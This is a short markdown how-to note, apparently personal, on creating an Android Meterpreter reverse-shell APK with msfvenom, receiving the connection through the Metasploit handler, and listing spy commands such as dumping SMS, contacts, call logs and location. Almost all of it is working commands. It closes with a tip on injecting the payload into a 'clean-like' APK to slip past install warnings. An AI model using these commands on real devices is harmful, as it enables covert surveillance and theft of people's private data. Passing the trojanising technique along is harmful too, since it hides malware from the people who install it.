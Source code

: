 ```yaml
---
tags: msf, android
---
```



## Require
- Make sure the android device can visit the host where msf is running

## Steps
1. write an `apk` by msf:
`msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 R>nixni.apk`
1. install `nixni.apk` on android device
1. exploit
	``` sh
	msf > use exploit/multi/handler
	msf > set payload android/meterpreter/reverse_tcp
	msf > set LHOST 192.168.0.107
	msf > set LPORT 4444
	msf > exploit
	```

1. Meterpreter 
	``` sh
	meterpreter > ?
	
	Android Commands
	================

			Command           Description
			-------           -----------
			activity_start    Start an Android activity from a Uri string
			check_root        Check if device is rooted
			dump_calllog      Get call log
			dump_contacts     Get contacts list
			dump_sms          Get sms messages
			geolocate         Get current lat-long using geolocation
			hide_app_icon     Hide the app icon from the launcher
			interval_collect  Manage interval collection capabilities
			send_sms          Sends SMS from target session
			set_audio_mode    Set Ringer Mode
			sqlite_query      Query a SQLite database from storage
			wakelock          Enable/Disable Wakelock
			wlan_geolocate    Get current lat-long using WLAN information
			
	```
	
1. do something funny ;>


## Notice
- The attack is weak cause modern phone has advance mechanisms to prevent attack happen. There is two obstacle that author meets, install alert with virus warning and permissoin ask before running commands. 
- The apk is more powerful if inject it to another clean-like apk, commands: `
msfvenom -x nixni.apk -p android/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -o clean-like.apk
 `, more information please ref the msf doc.

